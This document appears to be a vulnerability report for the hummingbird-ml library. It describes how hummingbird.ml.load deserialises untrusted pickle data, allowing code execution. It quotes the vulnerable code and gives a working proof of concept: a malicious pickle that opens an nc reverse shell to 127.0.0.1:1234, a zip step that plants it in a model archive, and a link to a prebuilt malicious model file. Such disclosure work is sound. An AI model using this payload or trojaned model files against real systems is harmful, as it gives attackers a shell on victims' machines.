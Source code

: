 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in hummingbird.ml.load in hummingbird"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads using api hummingbird.ml.load

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 0.4.11

## Description

Hummingbird can be used to convert trained traditional ML models into [PyTorch, TorchScript, ONNX, and TVM](https://github.com/microsoft/hummingbird?tab=readme-ov-file#introduction). In Hummingbird [official example](https://github.com/microsoft/hummingbird?tab=readme-ov-file#examples), it trains a scikit-learn RandomForestClassifier model, save the model to a zip file, and finally load the model back from the zip file.

```
import numpy as np
from sklearn.ensemble import RandomForestClassifier
from hummingbird.ml import convert, load

# Create some random data for binary classification
num_classes = 2
X = np.random.rand(100000, 28)
y = np.random.randint(num_classes, size=100000)

# Create and train a model (scikit-learn RandomForestClassifier in this case)
skl_model = RandomForestClassifier(n_estimators=10, max_depth=10)
skl_model.fit(X, y)

# Use Hummingbird to convert the model to PyTorch
model = convert(skl_model, 'pytorch')

# Run predictions on CPU
model.predict(X)

# Run predictions on GPU
model.to('cuda')
model.predict(X)

# Save the model
model.save('hb_model')

# Load the model back
model = load('hb_model')
```

After running the example snippets, it creates a `hb_model.zip` file containing all PyTorch model information. The structure of zipped model file:

```
hb_model.zip
    |___deploy_model.zip (pickle format)
    |___model_configuration.txt
    |___model_type.txt
```

When loading the model back, it uses [`PyTorchSklearnContainer.load`](https://github.com/microsoft/hummingbird/blob/d489151e97eaa9d8ec446118b709863a5acab87d/hummingbird/ml/containers/sklearn/pytorch_containers.py#L108) to extract the zip file, and use [`pickle.load`](https://github.com/microsoft/hummingbird/blob/d489151e97eaa9d8ec446118b709863a5acab87d/hummingbird/ml/containers/sklearn/pytorch_containers.py#L177) to load the `deploy_model.zip` which is a pickle file.

The vulnerable function: [`PyTorchSklearnContainer.load#L177`](https://github.com/microsoft/hummingbird/blob/d489151e97eaa9d8ec446118b709863a5acab87d/hummingbird/ml/containers/sklearn/pytorch_containers.py#L177)

```
@staticmethod
def load(location, do_unzip_and_model_type_check=True, delete_unzip_location_folder: bool = True,
            digest=None, override_flag=False):
    ...
    # Unzip the dir.
    if do_unzip_and_model_type_check:
        zip_location = location
        if not location.endswith("zip"):
            zip_location = location + ".zip"
        else:
            location = zip_location[:-4]
        assert os.path.exists(zip_location), "Zip file {} does not exist.".format(zip_location)
    ...

    if model_type == "torch.jit":
        # This is a torch.jit model
        model = torch.jit.load(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH))
        with open(os.path.join(location, "container.pkl"), "rb") as file:
            # vulnerable to command injection !!!
            container = pickle.load(file)
        container._model = model
    elif model_type == "torch":
        # This is a pytorch  model
        with open(os.path.join(location, constants.SAVE_LOAD_TORCH_JIT_PATH), "rb") as file:
            # vulnerable to command injection !!!
            container = pickle.load(file)
    ...
    return container
```

## Proof of Concept

Firstly, install latest hummingbird 

```
pip install hummingbird-ml
```

And create a valid pytorch model file following [official example](https://github.com/microsoft/hummingbird?tab=readme-ov-file#examples):

```
import numpy as np
from sklearn.ensemble import RandomForestClassifier
from hummingbird.ml import convert, load

# Create some random data for binary classification
num_classes = 2
X = np.random.rand(100000, 28)
y = np.random.randint(num_classes, size=100000)

# Create and train a model (scikit-learn RandomForestClassifier in this case)
skl_model = RandomForestClassifier(n_estimators=10, max_depth=10)
skl_model.fit(X, y)

# Use Hummingbird to convert the model to PyTorch
model = convert(skl_model, 'pytorch')

# Run predictions on CPU
model.predict(X)

# Run predictions on GPU
model.to('cuda')
model.predict(X)

# Save the model
model.save('hb_model')
```

Now we have a valid pytorch model file in zip format:

```
hb_model.zip
    |___deploy_model.zip (pickle format)
    |___model_configuration.txt
    |___model_type.txt
```

Create a malicious pickle file named `deploy_model.zip` 

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('deploy_model.zip', 'wb') as f:
    pickle.dump(RCE(), f)
```

Use following command to replace and update the `deploy_model.zip` file in `hb_model.zip`:

```
zip -u hb_model.zip deploy_model.zip
```

Now we have a malicious pytorch model file `hb_model.zip`, you can download from [github](https://raw.githubusercontent.com/sunriseXu/onnx/main/hb_model.zip).


### Start attack

Use following snippets to load the model back, it will trigger the unsafe `pickle.loads` command injection:

```
from hummingbird.ml import load
load("hb_model", override_flag=True)
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```

### Colab

Tested on google colab: [https://colab.research.google.com/drive/1vr8BG1rQhJf7qLFoXLZLOCKxFYnqsuY2?usp=sharing](https://colab.research.google.com/drive/1vr8BG1rQhJf7qLFoXLZLOCKxFYnqsuY2?usp=sharing)

![image](http://live.staticflickr.com/65535/53823382430_a03098fdc4_k.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious pytorch model using `hummingbird.ml.load`, command injection can be achieved on victims' mechine.


## Occurrences

[PyTorchSklearnContainer.load#L172](https://github.com/microsoft/hummingbird/blob/d489151e97eaa9d8ec446118b709863a5acab87d/hummingbird/ml/containers/sklearn/pytorch_containers.py#L172)

[PyTorchSklearnContainer.load#L177](https://github.com/microsoft/hummingbird/blob/d489151e97eaa9d8ec446118b709863a5acab87d/hummingbird/ml/containers/sklearn/pytorch_containers.py#L177)

